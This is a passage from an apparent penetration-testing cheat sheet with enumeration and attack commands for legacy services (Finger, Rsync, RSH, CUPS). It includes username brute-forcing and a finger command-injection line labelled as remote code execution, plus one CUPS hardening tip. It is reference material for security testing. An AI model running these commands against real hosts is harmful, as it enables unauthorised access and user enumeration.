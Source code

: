 ### Finger Service

Finger is an old user information protocol are simple network protocols for the exchange of human-oriented status and user information that was created in ... 1977.

You can use the [finger-user-enum](https://github.com/pentestmonkey/finger-user-enum) Perl script to bruteforce username

```bash
finger @VICTIM-IP # List users
finger USERNAME@VICTIM-IP # Get info of user
finger-user-enum.pl -U users.txt -t IP # Brute force to guess users
finger "|/bin/ls -a /@IP" # Perform an RCE
```

### Rsync

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files.

```bash
nc -vn IP 873 # Banner grabbing
nmap -sV --script "rsync-list-modules" -p 873 IP # Enumerate availables rsync modules
rsync rsync://IP # Try to connect
```

### RSH

The remote shell (rsh) is a command line computer program that can execute shell commands as another user, and on another computer across a computer network.

```bash
rsh <target> <command>       #
rusers -al IP                # Displays the users currently logged on on the machine
rlogin -l USERNAME <target>  # Connect on a remote machine with a 
```

### CUPS

[CUPS](https://ubuntu.com/server/docs/service-cups) is a modular printing system for Unix-like computer operating systems which allows a computer to act as a print server.

```bash
nmap -p 631 --script cups-info IP # Lists printers managed by the CUPS printing service.
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure the CUPS service is not enabled within your organization if the system does not need to print jobs or accept print jobs from other systems

### Cisco Smart Install

Cisco Smart Install is a legacy feature that provides zero-touch deployment for new switches, typically access layer switches.
